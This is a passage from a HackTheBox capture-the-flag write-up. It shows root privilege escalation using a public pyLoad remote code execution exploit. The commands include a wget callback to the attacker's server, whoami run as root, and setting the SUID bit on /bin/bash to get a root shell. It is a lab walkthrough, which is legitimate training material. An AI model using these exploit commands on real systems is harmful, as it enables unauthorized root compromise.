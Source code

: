 [https://www.exploit-db.com/exploits/51532](https://www.exploit-db.com/exploits/51532) exploit giving RCE on old pyload version.

I'll send the traffic to my webserver to check if i have RCE.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/PC]
└──╼ $python3 exploit.py -u http://127.0.0.1:8000 -c "wget http://10.10.14.6:8080/test"
[+] Check if target host is alive: http://127.0.0.1:8000
[+] Host up, let's exploit! 
[+] The exploit has be executeded in target machine. 
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/PC]
└──╼ $httpserver
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.11.214 - - [23/Sep/2023 14:48:38] code 404, message File not found
10.10.11.214 - - [23/Sep/2023 14:48:38] "GET /test HTTP/1.1" 404 -
```

Great, next up user check.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/PC]
└──╼ $python3 exploit.py -u http://127.0.0.1:8000 -c "whoami > /home/sau/result"
[+] Check if target host is alive: http://127.0.0.1:8000
[+] Host up, let's exploit! 
[+] The exploit has be executeded in target machine. 
```

```bash
sau@pc:~$ cat result
root
```

As expected I am root here, all that's left is change bin bash to be an SUID and get root.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/PC]
└──╼ $python3 exploit.py -u http://127.0.0.1:8000 -c "chmod 4755 /bin/bash"
[+] Check if target host is alive: http://127.0.0.1:8000
[+] Host up, let's exploit! 
[+] The exploit has be executeded in target machine. 
```

It is of note here that i think + was filtered through the command field since I tried u+s with no results a couple times.

```bash
sau@pc:~$ ll /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash*
sau@pc:~$ /bin/bash -p
bash-5.0# cat /root/root.txt
35928ff3dcf451-------------------
```


